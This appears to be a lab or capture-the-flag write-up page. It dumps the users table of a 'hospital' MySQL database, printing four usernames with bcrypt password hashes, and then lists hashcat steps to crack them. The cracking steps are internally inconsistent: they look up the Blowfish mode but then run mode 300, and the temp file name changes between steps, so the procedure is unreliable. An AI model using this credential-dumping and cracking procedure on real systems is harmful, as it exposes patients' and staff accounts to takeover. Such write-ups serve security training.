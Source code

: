 ```sql
use hospital;
show tables;
select * from users;
```

MySQL password dump:

```
+----+----------+--------------------------------------------------------------+---------------------+
| id | username | password                                                     | created_at          |
+----+----------+--------------------------------------------------------------+---------------------+
|  1 | admin    | $2y$10$caGIEbf9DBF7ddlByqCkrexkt0cPseJJ5FiVO1cnhG.3NLrxcjMh2 | 2023-09-21 14:46:04 |
|  2 | patient  | $2y$10$a.lNstD7JdiNYxEepKf1/OZ5EM5wngYrf.m5RxXCgSud7MVU6/tgO | 2023-09-21 15:35:11 |
|  3 | teste    | $2y$10$90viCFR7SaUQdFUeKIQbOu6AXEbR//N1XvQHjXskMcVXiAqtcqlFW | 2024-01-10 04:17:44 |
|  4 | lilpil   | $2y$10$ePnfu.p/U/73/XxXFmImj.5YrbNlzyirfYNHgDai9Tft1T5dhr6VO | 2024-01-10 06:54:06 |
+----+----------+--------------------------------------------------------------+---------------------+
```

<figure><img src="../../.gitbook/assets/image (274).png" alt=""><figcaption></figcaption></figure>

### Crack MySQL passwords

1. For each hash create a hashtmp file to use in hashcat.
2.  Identify the type of hash using `hashid hashtmp`\


    <figure><img src="../../.gitbook/assets/image (276).png" alt=""><figcaption></figcaption></figure>
3. Find the mode code to use: `hashcat -h | grep Blowfish`
4. Crack for each hash: `hashcat -m 300 -a 0 tmphash`
